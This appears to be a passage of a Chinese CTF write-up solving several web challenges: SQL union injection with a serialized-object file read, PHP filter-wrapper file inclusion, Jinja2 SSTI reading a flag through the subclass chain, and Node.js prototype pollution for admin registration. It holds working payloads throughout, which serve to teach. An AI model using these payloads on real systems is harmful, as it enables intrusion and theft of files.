?no=2 union/**/select 1,2,3,'O:8:"UserInfo":3:{s:4:"name";s:4:"user";s:3:"age";i:20;s:4:"blog";s:29:"file:///var/www/html/flag.php";}'#
```



解码同样得到flag



## 题目名称-文件包含

非常简单的文件包含，进入页面给出了如下源码：

```php
<?php
highlight_file(__FILE__);
    include("./check.php");
    if(isset($_GET['filename'])){
        $filename  = $_GET['filename'];
        include($filename);
    }
?>
```

用dirsearch扫出`flag.php`

```text
[22:11:34] Scanning:
[22:11:39] 403 -   296B - /.php
[22:11:39] 403 -   297B - /.php3
[22:11:45] 200 -     0B - /check.php
[22:11:47] 200 -     0B - /flag.php
[22:11:48] 200 -    1KB - /index.php
[22:11:48] 200 -    1KB - /index.php/login/
[22:11:52] 403 -   305B - /server-status
[22:11:52] 403 -   306B - /server-status/

Task Completed
```

直接`?filename=flag.php`回显`you have use the right usage , but error method`

尝试php伪协议`?filename=php://filter/read=convert.base64-encode/resource=flag.php`回显`do not hack!`被拦截

> ### 常用过滤器（filter）
>
> PHP 内置了很多过滤器，可以组合使用。
>
> #### 1. 字符串处理过滤器 (String Filters)
>
> 这类过滤器直接对字符串进行基础的转换操作，在绕过简单的关键词检测或混淆内容时非常有用。
>
> - **`string.rot13`**：对内容进行 ROT13 编码。
>   - *场景*：绕过对 `<?php` 等关键字的简单正则匹配。
> - **`string.toupper` / `string.tolower`**：将所有字符转为大写或小写。
> - **`string.strip_tags`**：剥去 HTML 和 PHP 标签。
>   - *注意*：在现代 PHP 版本中，这个过滤器常用于尝试绕过“死亡 exit”逻辑，但有时会被限制。
>
> ------
>
> #### 2. 转换过滤器 (Conversion Filters)
>
> 这是 CTF 中最核心的类别，主要用于将不可见字符或代码逻辑转换为可读的文本。
>
> - **`convert.base64-encode` / `convert.base64-decode`**
>   - *用途*：读取 PHP 源码。直接读取 `.php` 文件会被服务器解析，而 Base64 编码后则会回显编码后的字符串。
> - **`convert.quoted-printable-encode`**：类似 Base64，将内容转为可打印字符。
>
> ------
>
> #### 3. 编解码/编码转换 (Iconv Filters)
>
> `convert.iconv.<from>.<to>` 格式的过滤器功能极其强大，它能将一种字符集转换为另一种。
>
> - **常用组合**：`convert.iconv.UTF-8.UTF-16` 或 `convert.iconv.UCS-2.UCS-4`。
> - **深层原理**：
>   1. **绕过 WAF**：改变字符编码可以让原本被拦截的关键字（如 `system`）在编码后变成合法的字符流。
>   2. **过滤器链攻击（Filter Chains）**：通过数十个 `iconv` 过滤器的叠加，可以利用编码溢出或错位，在文件末尾精准地“构造”出任意字符（如 `<?php eval(...)`）。
>
> ------
>
> #### 4. 压缩过滤器 (Compression Filters)
>
> 处理大文件或特定格式时使用。
>
> - **`zlib.deflate` / `zlib.inflate`**：使用 zlib 算法压缩/解压。
> - **`bzip2.compress` / `bzip2.decompress`**：使用 bzip2 算法。

测试发现`string`、`base64`、`read`都被过滤了，但`convert`没被过滤，尝试编解码转换过滤器

尝试`?filename=php://filter/convert.iconv.utf-8.utf-32/resource=flag.php`回显`you have use the right filter , but error usage`，提示使用了正确的过滤器和错误的用法，那锁定了过滤器就直接爆破编码组合了

[PHP: 支持的字符编码 - Manual](https://www.php.net/manual/zh/mbstring.supported-encodings.php)

```text
UCS-4*
UCS-4BE
UCS-4LE*
UCS-2
UCS-2BE
UCS-2LE
UTF-32*
UTF-32BE*
UTF-32LE*
UTF-16*
UTF-16BE*
UTF-16LE*
UTF-7
UTF7-IMAP
UTF-8*
ASCII*
EUC-JP*
SJIS*
eucJP-win*
SJIS-win*
ISO-2022-JP
ISO-2022-JP-MS
CP932
CP51932
SJIS-mac
SJIS-Mobile#DOCOMO
SJIS-Mobile#KDDI
SJIS-Mobile#SOFTBANK
UTF-8-Mobile#DOCOMO
UTF-8-Mobile#KDDI-A
UTF-8-Mobile#KDDI-B
UTF-8-Mobile#SOFTBANK
ISO-2022-JP-MOBILE#KDDI
JIS
JIS-ms
CP50220
CP50220raw
CP50221
CP50222
ISO-8859-1*
ISO-8859-2*
ISO-8859-3*
ISO-8859-4*
ISO-8859-5*
ISO-8859-6*
ISO-8859-7*
ISO-8859-8*
ISO-8859-9*
ISO-8859-10*
ISO-8859-13*
ISO-8859-14*
ISO-8859-15*
ISO-8859-16*
byte2be
byte2le
byte4be
byte4le
BASE64
HTML-ENTITIES
7bit
8bit
EUC-CN*
CP936
GB18030
HZ
EUC-TW*
CP950
BIG-5*
EUC-KR*
UHC
ISO-2022-KR
Windows-1251
Windows-1252
CP866
KOI8-R*
KOI8-U*
ArmSCII-8
```



## Confusion1

进入页面首页显示被蛇缠住的大象，大概是python和php





顶栏有login和register两个页面可以进入但都显示not found，源码提示了flag位置



但这里的not found报错原样回显了URL `/login.php`

```text
Not Found
The requested URL /login.php was not found on this server.

Apache/2.4.10 (Debian) Server at 61.147.171.103 Port 53160
```

又结合有关python、php的提示，尝试ssti模板注入



回显49，于是尝试一些payload发现 `|` 、`class`、`read`在大括号中被过滤，`globals`、`base`在url中被过滤，那就没法用`attr`，只能用`mro`以及中括号加`request`的方式去找能用的类

```text
{{()[request.args.a][request.args.b]}}?a=__class__&b=__mro__
```

找到URL `/(<type 'tuple'>, <type 'object'>)`，利用object类

```text
{{()[request.args.a][request.args.b][1][request.args.c]()}}?a=__class__&b=__mro__&c=__subclasses__
```

找到40号file对象可以直接读取flag

```text
0, <type 'type'>
1, <type 'weakref'>
2, <type 'weakcallableproxy'>
3, <type 'weakproxy'>
4, <type 'int'>
5, <type 'basestring'>
6, <type 'bytearray'>
7, <type 'list'>
8, <type 'NoneType'>
9, <type 'NotImplementedType'>
10, <type 'traceback'>
11, <type 'super'>
12, <type 'xrange'>
13, <type 'dict'>
14, <type 'set'>
15, <type 'slice'>
16, <type 'staticmethod'>
17, <type 'complex'>
18, <type 'float'>
19, <type 'buffer'>
20, <type 'long'>
21, <type 'frozenset'>
22, <type 'property'>
23, <type 'memoryview'>
24, <type 'tuple'>
25, <type 'enumerate'>
26, <type 'reversed'>
27, <type 'code'>
28, <type 'frame'>
29, <type 'builtin_function_or_method'>
30, <type 'instancemethod'>
31, <type 'function'>
32, <type 'classobj'>
33, <type 'dictproxy'>
34, <type 'generator'>
35, <type 'getset_descriptor'>
36, <type 'wrapper_descriptor'>
37, <type 'instance'>
38, <type 'ellipsis'>
39, <type 'member_descriptor'>
40, <type 'file'>
41, <type 'PyCapsule'>
42, <type 'cell'>
43, <type 'callable-iterator'>
44, <type 'iterator'>
45, <type 'sys.long_info'>
46, <type 'sys.float_info'>
47, <type 'EncodingMap'>
48, <type 'fieldnameiterator'>
49, <type 'formatteriterator'>
50, <type 'sys.version_info'>
51, <type 'sys.flags'>
52, <type 'exceptions.BaseException'>
53, <type 'module'>
54, <type 'imp.NullImporter'>
55, <type 'zipimport.zipimporter'>
56, <type 'posix.stat_result'>
57, <type 'posix.statvfs_result'>
58, <class 'warnings.WarningMessage'>
59, <class 'warnings.catch_warnings'>
60, <class '_weakrefset._IterationGuard'>
61, <class '_weakrefset.WeakSet'>
62, <class '_abcoll.Hashable'>
63, <type 'classmethod'>
64, <class '_abcoll.Iterable'>
65, <class '_abcoll.Sized'>
66, <class '_abcoll.Container'>
67, <class '_abcoll.Callable'>
68, <type 'dict_keys'>
69, <type 'dict_items'>
70, <type 'dict_values'>
71, <class 'site._Printer'>
72, <class 'site._Helper'>
73, <type '_sre.SRE_Pattern'>
74, <type '_sre.SRE_Match'>
75, <type '_sre.SRE_Scanner'>
76, <class 'site.Quitter'>
77, <class 'codecs.IncrementalEncoder'>
78, <class 'codecs.IncrementalDecoder'>
79, <type 'operator.itemgetter'>
80, <type 'operator.attrgetter'>
81, <type 'operator.methodcaller'>
82, <type 'functools.partial'>
83, <type 'itertools.combinations'>
84, <type 'itertools.combinations_with_replacement'>
85, <type 'itertools.cycle'>
86, <type 'itertools.dropwhile'>
87, <type 'itertools.takewhile'>
88, <type 'itertools.islice'>
89, <type 'itertools.starmap'>
90, <type 'itertools.imap'>
91, <type 'itertools.chain'>
92, <type 'itertools.compress'>
93, <type 'itertools.ifilter'>
94, <type 'itertools.ifilterfalse'>
95, <type 'itertools.count'>
96, <type 'itertools.izip'>
97, <type 'itertools.izip_longest'>
98, <type 'itertools.permutations'>
99, <type 'itertools.product'>
100, <type 'itertools.repeat'>
101, <type 'itertools.groupby'>
102, <type 'itertools.tee_dataobject'>
103, <type 'itertools.tee'>
104, <type 'itertools._grouper'>
105, <type 'cStringIO.StringO'>
106, <type 'cStringIO.StringI'>
107, <class 'string.Template'>
108, <class 'string.Formatter'>
109, <type 'collections.deque'>
110, <type 'deque_iterator'>
111, <type 'deque_reverse_iterator'>
112, <type '_thread._localdummy'>
113, <type 'thread._local'>
114, <type 'thread.lock'>
115, <type 'datetime.date'>
116, <type 'datetime.timedelta'>
117, <type 'datetime.time'>
118, <type 'datetime.tzinfo'>
119, <class 'werkzeug._internal._Missing'>
120, <class 'werkzeug._internal._DictAccessorProperty'>
121, <type 'time.struct_time'>
122, <class 'email.LazyImporter'>
123, <type 'Struct'>
124, <type '_hashlib.HASH'>
125, <type '_random.Random'>
126, <type '_ssl._SSLContext'>
127, <type '_ssl._SSLSocket'>
128, <class 'socket._closedsocket'>
129, <type '_socket.socket'>
130, <type 'method_descriptor'>
131, <class 'socket._socketobject'>
132, <class 'socket._fileobject'>
133, <class 'urlparse.ResultMixin'>
134, <class 'contextlib.GeneratorContextManager'>
135, <class 'contextlib.closing'>
136, <class 'calendar.Calendar'>
137, <type '_io._IOBase'>
138, <type '_io.IncrementalNewlineDecoder'>
139, <class 'werkzeug.datastructures.ImmutableListMixin'>
140, <class 'werkzeug.datastructures.ImmutableDictMixin'>
141, <class 'werkzeug.datastructures.UpdateDictMixin'>
142, <class 'werkzeug.datastructures.ViewItems'>
143, <class 'werkzeug.datastructures._omd_bucket'>
144, <class 'werkzeug.datastructures.Headers'>
145, <class 'werkzeug.datastructures.ImmutableHeadersMixin'>
146, <class 'werkzeug.datastructures.IfRange'>
147, <class 'werkzeug.datastructures.Range'>
148, <class 'werkzeug.datastructures.ContentRange'>
149, <class 'werkzeug.datastructures.FileStorage'>
150, <class 'werkzeug.urls.Href'>
151, <class 'werkzeug.wsgi.ProxyMiddleware'>
152, <class 'werkzeug.wsgi.SharedDataMiddleware'>
153, <class 'werkzeug.wsgi.DispatcherMiddleware'>
154, <class 'werkzeug.wsgi.ClosingIterator'>
155, <class 'werkzeug.wsgi.FileWrapper'>
156, <class 'werkzeug.wsgi._RangeWrapper'>
157, <class 'werkzeug.formparser.FormDataParser'>
158, <class 'werkzeug.formparser.MultiPartParser'>
159, <class 'werkzeug.utils.HTMLBuilder'>
160, <class 'werkzeug.wrappers.BaseRequest'>
161, <class 'werkzeug.wrappers.BaseResponse'>
162, <class 'werkzeug.wrappers.AcceptMixin'>
163, <class 'werkzeug.wrappers.ETagRequestMixin'>
164, <class 'werkzeug.wrappers.UserAgentMixin'>
165, <class 'werkzeug.wrappers.AuthorizationMixin'>
166, <class 'werkzeug.wrappers.StreamOnlyMixin'>
167, <class 'werkzeug.wrappers.ETagResponseMixin'>
168, <class 'werkzeug.wrappers.ResponseStream'>
169, <class 'werkzeug.wrappers.ResponseStreamMixin'>
170, <class 'werkzeug.wrappers.CommonRequestDescriptorsMixin'>
171, <class 'werkzeug.wrappers.CommonResponseDescriptorsMixin'>
172, <class 'werkzeug.wrappers.WWWAuthenticateMixin'>
173, <class 'werkzeug.exceptions.Aborter'>
174, <type '_json.Scanner'>
175, <type '_json.Encoder'>
176, <class 'json.decoder.JSONDecoder'>
177, <class 'json.encoder.JSONEncoder'>
178, <class 'threading._Verbose'>
179, <type 'cPickle.Unpickler'>
180, <type 'cPickle.Pickler'>
181, <class 'jinja2.utils.MissingType'>
182, <class 'jinja2.utils.LRUCache'>
183, <class 'jinja2.utils.Cycler'>
184, <class 'jinja2.utils.Joiner'>
185, <class 'jinja2.utils.Namespace'>
186, <class 'markupsafe._MarkupEscapeHelper'>
187, <class 'jinja2.nodes.EvalContext'>
188, <class 'jinja2.runtime.TemplateReference'>
189, <class 'jinja2.nodes.Node'>
190, <class 'numbers.Number'>
191, <class 'jinja2.runtime.Context'>
192, <class 'jinja2.runtime.BlockReference'>
193, <class 'jinja2.runtime.LoopContextBase'>
194, <class 'jinja2.runtime.LoopContextIterator'>
195, <class 'jinja2.runtime.Macro'>
196, <class 'jinja2.runtime.Undefined'>
197, <class 'decimal.Decimal'>
198, <class 'decimal._ContextManager'>
199, <class 'decimal.Context'>
200, <class 'decimal._WorkRep'>
201, <class 'decimal._Log10Memoize'>
202, <type '_ast.AST'>
203, <class 'jinja2.lexer.Failure'>
204, <class 'jinja2.lexer.TokenStreamIterator'>
205, <class 'jinja2.lexer.TokenStream'>
206, <class 'jinja2.lexer.Lexer'>
207, <class 'jinja2.parser.Parser'>
208, <class 'jinja2.visitor.NodeVisitor'>
209, <class 'jinja2.idtracking.Symbols'>
210, <class 'jinja2.compiler.MacroRef'>
211, <class 'jinja2.compiler.Frame'>
212, <class 'jinja2.environment.Environment'>
213, <class 'jinja2.environment.Template'>
214, <class 'jinja2.environment.TemplateModule'>
215, <class 'jinja2.environment.TemplateExpression'>
216, <class 'jinja2.environment.TemplateStream'>
217, <class 'jinja2.loaders.BaseLoader'>
218, <class 'jinja2.bccache.Bucket'>
219, <class 'jinja2.bccache.BytecodeCache'>
220, <class 'difflib.HtmlDiff'>
221, <class 'uuid.UUID'>
222, <type 'CArgObject'>
223, <type '_ctypes.CThunkObject'>
224, <type '_ctypes._CData'>
225, <type '_ctypes.CField'>
226, <type '_ctypes.DictRemover'>
227, <class 'ctypes.CDLL'>
228, <class 'ctypes.LibraryLoader'>
229, <type 'select.epoll'>
230, <class 'subprocess.Popen'>
231, <class 'werkzeug.routing.RuleFactory'>
232, <class 'werkzeug.routing.RuleTemplate'>
233, <class 'werkzeug.routing.BaseConverter'>
234, <class 'werkzeug.routing.Map'>
235, <class 'werkzeug.routing.MapAdapter'>
236, <class 'ast.NodeVisitor'>
237, <class 'click._compat._FixupStream'>
238, <class 'click._compat._AtomicFile'>
239, <class 'click.utils.LazyFile'>
240, <class 'click.utils.KeepOpenFile'>
241, <class 'click.utils.PacifyFlushWrapper'>
242, <class 'click.types.ParamType'>
243, <class 'click.parser.Option'>
244, <class 'click.parser.Argument'>
245, <class 'click.parser.ParsingState'>
246, <class 'click.parser.OptionParser'>
247, <class 'click.formatting.HelpFormatter'>
248, <class 'click.core.Context'>
249, <class 'click.core.BaseCommand'>
250, <class 'click.core.Parameter'>
251, <class 'werkzeug.local.Local'>
252, <class 'werkzeug.local.LocalStack'>
253, <class 'werkzeug.local.LocalManager'>
254, <class 'werkzeug.local.LocalProxy'>
255, <class 'flask.signals.Namespace'>
256, <class 'flask.signals._FakeSignal'>
257, <class 'flask.helpers.locked_cached_property'>
258, <class 'flask.helpers._PackageBoundObject'>
259, <class 'flask.cli.DispatchingApp'>
260, <class 'flask.cli.ScriptInfo'>
261, <class 'itsdangerous._CompactJSON'>
262, <class 'itsdangerous.SigningAlgorithm'>
263, <class 'itsdangerous.Signer'>
264, <class 'itsdangerous.Serializer'>
265, <class 'itsdangerous.URLSafeSerializerMixin'>
266, <class 'flask.config.ConfigAttribute'>
267, <class 'flask.ctx._AppCtxGlobals'>
268, <class 'flask.ctx.AppContext'>
269, <class 'flask.ctx.RequestContext'>
270, <class 'logging.LogRecord'>
271, <class 'logging.Formatter'>
272, <class 'logging.BufferingFormatter'>
273, <class 'logging.Filter'>
274, <class 'logging.Filterer'>
275, <class 'logging.PlaceHolder'>
276, <class 'logging.Manager'>
277, <class 'logging.LoggerAdapter'>
278, <class 'flask.json.tag.JSONTag'>
279, <class 'flask.json.tag.TaggedJSONSerializer'>
280, <class 'flask.sessions.SessionInterface'>
281, <class 'flask.wrappers.JSONMixin'>
282, <class 'flask.blueprints.BlueprintSetupState'>
283, <class 'werkzeug.serving.WSGIRequestHandler'>
284, <class 'jinja2.ext.Extension'>
285, <class 'jinja2.ext._CommentFinder'>
286, <class 'werkzeug.serving._SSLContext'>
287, <class 'werkzeug.serving.BaseWSGIServer'>
288, <class 'jinja2.debug.TracebackFrameProxy'>
289, <class 'jinja2.debug.ProcessedTraceback'>
290, <type 'method-wrapper'>
```

```text
{{()[request.args.a][request.args.b][1][request.args.c]()[40]('/opt/flag_1de36dff62a3a54ecfbc6e1fd2ef0ad1.txt')[request.args.d]()}}?a=__class__&b=__mro__&c=__subclasses__&d=read
```

得到flag

```text
Not Found
The requested URL /cyberpeace{6d4078cde0a0143264513672256ffd9d} was not found on this server.

Apache/2.4.10 (Debian) Server at 61.147.171.103 Port 53160
```

## wife_wife

进入页面是一个登录注册界面，在注册这里可以选择勾选is admin，但勾选后要求提供invite code，如果不勾选然后注册登录显示`CatCTF{no_fl4g_4_u_6ut_you_h@ve_w1fe}`，说明必须要admin登录才能有flag，而题目描述称此题不需要爆破，从网上学习到这里应该利用JavaScript原型链污染

[Nodejs原型链污染攻击基础知识](https://blog.lxscloud.top/2022/11/13/nodejs原型链污染基础知识/)

[JavaScript 原型链污染](https://drun1baby.top/2022/12/29/JavaScript-原型链污染/#0x01-前言)

> ### 核心原理：什么是“原型链”？
>
> 在 JavaScript 中，几乎所有对象都继承自 `Object.prototype`。如果你修改了原型上的某个属性，所有对象都会受到影响。
>
> #### 1. 关键属性：`__proto__`
>
> 每个对象都有一个隐藏属性 `__proto__`，它指向该对象的原型。
>
> ```javascript
> let user = { name: "Alice" };
> console.log(user.admin); // undefined
> 
> // 如果我们修改了原型
> user.__proto__.admin = true;
> 
> let guest = {};
> console.log(guest.admin); // true！所有对象都被污染了
> ```
>
> #### 2. 它是如何发生的？
>
> 漏洞通常出现在**对象合并（Merge）**或**路径赋值（Path Assignment）**的场景中。如果程序在处理用户输入的 JSON 数据时，没有过滤 `__proto__` 或 `constructor` 等敏感键，攻击者就可以注入恶意代码。
>
> ------
>
> ### 攻击场景示例
>
> 假设后端有一段常见的“深度合并”函数（如处理配置文件）：
>
> ```javascript
> function merge(target, source) {
>     for (let key in source) {
>         if (key in target && key in source) {
>             merge(target[key], source[key]);
>         } else {
>             target[key] = source[key];
>         }
>     }
> }
> ```
>
> #### 攻击载荷（Payload）
>
> 攻击者发送如下恶意 JSON：
>
> ```json
> {
>   "__proto__": {
>     "isAdmin": true
>   }
> }
> ```
>
> #### 后果
>
> 当 `merge({}, payload)` 执行后，系统中的 **所有对象** 都会莫名其妙地多出一个 `isAdmin: true` 的属性。如果代码中有类似 `if (user.isAdmin)` 的权限判断，攻击者就实现了**越权访问**。

所以这里抓注册时的包，原本的body内容为：

```json
{
  "username": "admin",
  "password": "123",
  "isAdmin": true,
  "inviteCode": "123"
}
```

会显示：

```json
{
  "msg": "invalid invite code",
  "err": true
}
```

但利用js原型链污染，不直接提供`isAdmin`属性而是直接提供`__proto__`属性，例如：

```json
{
  "username": "admin",
  "password": "123",
  "__proto__": {
    "isAdmin": true
  }
}
```

这样在检查`isAdmin`和`inviteCode`时，其最终处理结果如何都不影响，因为`Object.prototype` 被注入了 `isAdmin: true`，也因此能够注册成功admin账户了，最后登录得到flag
